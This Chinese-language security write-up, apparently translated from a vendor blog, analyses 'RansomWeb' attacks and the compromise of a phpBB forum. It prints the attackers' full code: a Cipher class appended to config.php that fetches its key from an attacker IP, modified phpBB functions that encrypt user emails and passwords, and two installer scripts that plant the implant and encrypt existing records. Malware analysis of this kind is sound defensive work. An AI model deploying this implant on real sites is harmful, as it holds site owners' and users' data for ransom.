# RansomWeb:一种新兴的web安全威胁

0x00 前言
=======

* * *

目前越来越多的人称为勒索软件的受害者，恶意软件会加密你的计算机直到你愿意交保护费，最新的趋势发现，网站已经成为犯罪分子的攻击目标，犯罪软件会加密你的数据库直到你付钱。

![enter image description here](http://drops.javaweb.org/uploads/images/0be4d10e719c148ae6ee30cd8824027fc8b28f11.jpg)

source https://www.htbridge.com/blog/ransomweb_emerging_website_threat.html

0x01 守候
=======

* * *

2014.12.** 我们的安全专家在一个理财网站上发现一个很有趣的案例:网站一直显示无法连接数据库，而网站管理员收到一封勒索邮件，“给钱，然后我们会给你数据库解锁”。

遇到这种类型攻击的网站都是一些小型站点，但是公司的重点业务运营都是围绕网站进行了，停了分分钟几万，chinese一点地话来说，“互联网公司”。

我们认真的进行了调查，发现一下几点特点：

1 web应用程序在半年前被入侵，攻击者修改了一些需要进行数据库操作的脚本，在插入数据时对数据进行加密，在查询数据时对数据进行解密。整个过程 用户没有感到任何异样。

2 只对关键的数据库表被进行加密，将对网站性能的影响降到了最低，并且加密了之前被存入的数据库记录。

3 加密密钥被储存在远程服务器上，只能通过https访问（一定可能性是为了防止被拦截）

4 在这6个月，黑客默默地守候着网站，当一些升级和运维行为时对服务器进行备份。

5 在xxx天后，黑客关闭远程服务器，同时网站停止服务，and收到一封饱含着爱意的恶意邮件。

0x02 另一个案例
==========

* * *

我们一开始相信这是一个针对部分公司进行的apt行为，属于一个特殊的个别案例，不过后来发现我们错了，上周我们又发现一个相似的例子，来自我们的另一个客户。他收到了一个勒索邮件。。。在他的phpbb论坛失灵之后。对于客户来说这个phpBB是一个非常重要的平台，版本还是2014年11月25日发布的phpBB 3.1.2 最新版。

最早问题来之于当时没有一个用户可以登录论坛，包括版主和管理员，用户的认证功能已经失效，在我们的调查下发现，登录时需要的密码和邮箱验证在插入数据裤的时候经过了一次加密。

我们发现下列文件遭到了修改。

1. factory.php
--------------

* * *

函数sql_fetchrow()遭到了修改，在进行sql查询

```
$result = $this->get_driver()->sql_fetchrow($query_id);

```

password 和 email字段会经过一次解密。

```
if(isset($result['user_password'])){ 
 $result['user_password'] = $cipher->decrypt($result['user_password']); 
} 
if(isset($result['user_email'])){ 
 $result['user_email'] = $cipher->decrypt($result['user_email']); 
}

```

2. functions_user.php
---------------------

* * *

函数 user_add 经过修改之后 添加数据时会被加密

```
$sql_ary = array( 
 'username'=>$user_row['username'], 
 'username_clean' => $username_clean, 
 'user_password' => (isset($user_row['user_password']))? 
    $cipher->encrypt($user_row['user_password']):$cipher->encrypt(''), 
 'user_email'=> $cipher->encrypt(strtolower($user_row['user_email'])), 
 'user_email_hash'=> phpbb_email_hash($user_row['user_email']), 
 'group_id' => $user_row['group_id'], 
 'user_type' => $user_row['user_type'], 
);

```

3. cp_activate.php
------------------

* * *

main 函数遭到修改

```
$sql_ary = array( 
 'user_actkey' => '', 
 'user_password' => $cipher->encrypt($user_row['user_newpasswd']), 
 'user_newpasswd' => '', 
 'user_login_attempts' => 0, 
);

```

4. ucp_profile.php
------------------

* * *

main函数。。。

```
if (sizeof($sql_ary)) 
{ 
 $sql_ary['user_email'] = $cipher->encrypt($sql_ary['user_email']); 
 $sql_ary['user_password'] = $cipher->encrypt($sql_ary['user_password']);
 $sql = 'UPDATE ' . USERS_TABLE . ' 
  SET ' . $db->sql_build_array('UPDATE', $sql_ary) . ' 
  WHERE user_id = ' . $user->data['user_id']; 
 $db->sql_query($sql);

```

5. config.php
-------------

* * *

```
class Cipher { 
 private $securekey, $iv; 
 function __construct($textkey) { 
  $this->securekey = hash('sha256',$textkey,TRUE); 
  $this->iv = mcrypt_create_iv(32); 
 } 
 function encrypt($input) { 
  return base64_encode(mcrypt_encrypt(MCRYPT_RIJNDAEL_256, 
       $this->securekey, $input, MCRYPT_MODE_ECB, $this->iv)); 
 } 
 function decrypt($input) { 
  return trim(mcrypt_decrypt(MCRYPT_RIJNDAEL_256, 
       $this->securekey, base64_decode($input), MCRYPT_MODE_ECB, $this->iv)); 
 } 
} 
$key=file_get_contents('https://103.13.120.108/sfdoif89d7sf8d979dfgf/ 
sdfds90f8d9s0f8d0f89.txt'); 
$cipher=new Cipher($key);

```

一个值得注意的是，我们发现黑客留下的两个可以自动化安装后门的脚本，可以对任意phpbb论坛植入后门程序，只需要几下点击，第一个修改 “config.php” 添加 cipher类在脚本中，其中可以看到 储存在远程服务器上的 密钥。

安装文件

```
<?php 
$file = '../config.php'; 
$txt = "\n".'class Cipher { 
 private $securekey, $iv; 
 function __construct($textkey) { 
  $this->securekey = hash(\'sha256\',$textkey,TRUE); 
  $this->iv = mcrypt_create_iv(32); 
 } 
 function encrypt($input) { 
  return base64_encode(mcrypt_encrypt(MCRYPT_RIJNDAEL_256, 
     $this->securekey, $input, MCRYPT_MODE_ECB, $this->iv)); 
  } 
 function decrypt($input) { 
  return trim(mcrypt_decrypt(MCRYPT_RIJNDAEL_256, 
     $this->securekey, base64_decode($input), MCRYPT_MODE_ECB, $this->iv)); 
 } 
} 
$key=file_get_contents(\'https://103.13.120.108/sfdoif89d7sf8d979dfgf/ 
sdfds90f8d9s0f8d0f89.txt\'); 
$cipher=new Cipher($key);'."\n"; 
if( FALSE !== file_put_contents($file, $txt, FILE_APPEND | LOCK_EX)){ 
 echo "DONE!"; 
};

```

第二个安装文件加密所有用户的 email和password，并替换上述文件。

```
<?php 
define('IN_PHPBB', true); 
$phpbb_root_path = (defined('PHPBB_ROOT_PATH')) ? PHPBB_ROOT_PATH : '../';
$phpEx = substr(strrchr(__FILE__, '.'), 1); 
include($phpbb_root_path . 'common.' . $phpEx); 
include($phpbb_root_path . 'includes/functions_display.' . $phpEx); 
$sql = 'SELECT user_id, user_password, user_email FROM ' . USERS_TABLE; 
$result = $db->sql_query($sql); 
while ($row = $db->sql_fetchrow($result)) 
{ 
 $sql2 = 'UPDATE ' . USERS_TABLE . ' 
  SET 
   user_password = "'.$cipher->encrypt($row['user_password']).'", 
   user_email = "'.$cipher->encrypt($row['user_email']).'" 
  WHERE user_id = '.$row['user_id']; 
 $result2 = $db->sql_query($sql2); 
} 
echo "SQL UPDATED!<br>"; 
copy('factory.php', '../phpbb/db/driver/factory.php'); 
copy('functions_user.php', '../includes/functions_user.php'); 
copy('ucp_activate.php', '../includes/ucp/ucp_activate.php'); 
copy('ucp_profile.php', '../includes/ucp/ucp_profile.php'); 
echo "FILES UPDATED!”;

```

接着攻击者等待两个月，就从远程服务器中取出密钥。

0x03 结论
=======

* * *

我们称这种攻击为 RansomWeb , 我们做了一个简要的分析：

RansomWeb 的特点

1 与ddos不同，这种攻击会对网站的可用性造成长时间的巨大影响。

2 不仅可以用于勒索，还可以用于其他很多用途。

3 不给钱想从攻击中恢复很困难。

RansomWeb 的弱点

1 做下文件监控就好了

2 在不对网站造成影响的情况下加密极其困难。

3 定期检测更新